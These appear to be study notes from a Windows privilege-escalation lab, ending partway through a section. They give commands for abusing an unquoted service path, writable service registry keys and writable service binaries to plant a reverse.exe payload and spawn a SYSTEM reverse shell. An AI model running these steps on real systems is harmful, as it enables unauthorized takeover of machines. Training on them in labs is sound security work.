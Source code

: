         **Automated**
        
        `use exploit/windows/local/unquoted_service_path`
        
        **Manual**
        
        Query the "unquotedsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME) and that the BINARY_PATH_NAME is unquoted and contains spaces.
        
        `sc qc unquotedsvc`
        
        Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:
        
        `C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`
        
        Copy the reverse.exe executable you created to this directory and rename it Common.exe:
        
        `copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`
        
        Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
        
        `net start unquotedsvc`
        
    - Weak Registry Permissions
        
        `.\winPEASx64.exe servicesinfo`
        
        ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%2015.png)
        
        Query the "regsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).
        
        `sc qc regsvc`
        
        Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users):
        
        `C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc`
        
        Overwrite the ImagePath registry key to point to the reverse.exe executable you created:
        
        `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`
        
        Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
        
        `net start regsvc`
        
    - Insecure Service Executables
        
        Query the "filepermsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).
        
        `sc qc filepermsvc`
        
        Using accesschk.exe, note that the service binary (BINARY_PATH_NAME) file is writable by everyone:
        